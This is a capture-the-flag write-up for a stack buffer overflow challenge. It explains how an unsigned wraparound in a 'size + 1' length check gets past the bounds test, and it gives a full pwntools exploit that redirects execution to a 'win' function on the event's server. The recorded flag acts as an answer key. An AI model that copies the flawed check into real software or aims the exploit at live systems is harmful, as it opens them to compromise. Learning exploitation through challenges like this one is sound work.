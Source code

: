 ```yaml
---
title: "yet another bof pwn"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
points: 100
solves: 23
flags: Meta4Sec{e6b760bc7b7f2e252a2c50692c5e4ce3}
---
```


> this is bof
>
> `nc 117.53.46.98 10000`

by `rui`

---

We were given a file `dist.zip` containing `chall` and `main.c`. Thanks to the problem setter for providing the source code, so we didn’t need to open IDA Pro. By reading the source code, we can identify a buffer overflow vulnerability.

Here is the relevant part of the source code:

```c
int main(){
    char buf[MAX];
    unsigned size;
    printf("size: ");
    scanf("%u", &size);
    if (size + 1 > MAX) {
        printf("no bof pls\n");
        exit(0);
    }
    printf("data: ");
    read(0, buf, size);
    buf[strcspn(buf, "\n")] = '\0';
    return 0;
}
```

The vulnerability lies in the `size + 1` check. When we input `-1` as the size, `size + 1` becomes `0` due to integer underflow. This bypasses the check, and the program proceeds to `read(0, buf, size);` where `size` is interpreted as the maximum value of an `unsigned int`.

This allows us to exploit the program by sending input longer than `MAX`, overwriting the return address of the `main` function, and redirecting execution to the `win` function.

Here is the full exploit:

```python
from pwn import *

BINARY = './dist/chall'

context.log_level = 'debug'
context.binary = BINARY

e = ELF(BINARY)
# r = process(BINARY)
r = remote('117.53.46.98',  10000)

r.sendlineafter(b'size: ', b'-1')
r.sendline(flat([
    cyclic(256),
    cyclic(8),
    e.sym['win']
]))

r.interactive()
```
